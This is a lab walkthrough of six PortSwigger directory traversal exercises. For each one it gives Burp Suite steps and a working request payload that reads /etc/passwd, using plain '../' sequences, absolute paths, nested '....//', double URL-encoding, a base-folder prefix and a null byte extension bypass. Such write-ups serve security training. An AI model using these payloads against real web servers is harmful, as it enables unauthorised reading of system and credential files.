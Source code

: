 # Portswigger
## Directory Traversal
### File path traversal, simple case
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=../../../../etc/passwd HTTP/1.1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215316.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215543.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215820.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215946.png)

### File path traversal, traversal sequences blocked with absolute path bypass
- use absolute path
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=/etc/passwd HTTP/1.1


```

### File path traversal, traversal sequences stripped non-recursively
- `using ..../ or ....\/`
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=....//....//....//....//etc/passwd HTTP/1.1


```

### File path traversal, traversal sequences stripped with superfluous URL-decode
- non-standard URL encoding
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1

```

### File path traversal, validation of start of path
- base folder requirement "/var/www/images"
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/1.1


```

### File path traversal, validation of file extension with null byte bypass
- if a file extension is expected you may be able to use a null byte prior to said extension to terminate the following extension (similar to a comment at the end of an sql statement)
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=../../../../etc/passwd%00.jpg HTTP/1.1


```

#hacking
